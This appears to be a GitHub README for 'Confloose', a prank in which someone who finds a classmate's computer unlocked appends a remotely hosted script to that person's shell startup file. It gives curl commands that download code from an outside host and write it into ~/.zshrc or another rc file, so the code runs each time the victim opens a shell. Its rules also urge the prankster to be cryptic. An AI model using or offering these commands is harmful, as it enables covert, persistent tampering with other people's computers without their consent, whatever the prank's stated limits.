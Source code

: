 Confloose
=========

A *confloose* (or "loose configuration") is a collection of the worst a startup
script can do for you.

There has been a prank going on for quite some time in my IT school --
when someone leaves his computer unattended, and without locking it, one would
append a script to the victim's shell startup file.

The deal is to put really annoying things right off the bat while not harming
the computer and the data on it -- this prank is meant as a lesson (you should
not leave your computer unattended in public space), and a fun challenge (at
least for the one watching from afar)

How to confloose somebody :
---------------------------

``curl "http://confloo.se/hard" >> ~/.the_shell_rc``

So, as an example, confloosing someone using zsh :

``curl "http://confloo.se/hard" >> ~/.zshrc``

Rules :
-------
1. Don't destroy anything.
2. Don't steal anything.
3. Try to be cryptic.
4. Be fun and creative.
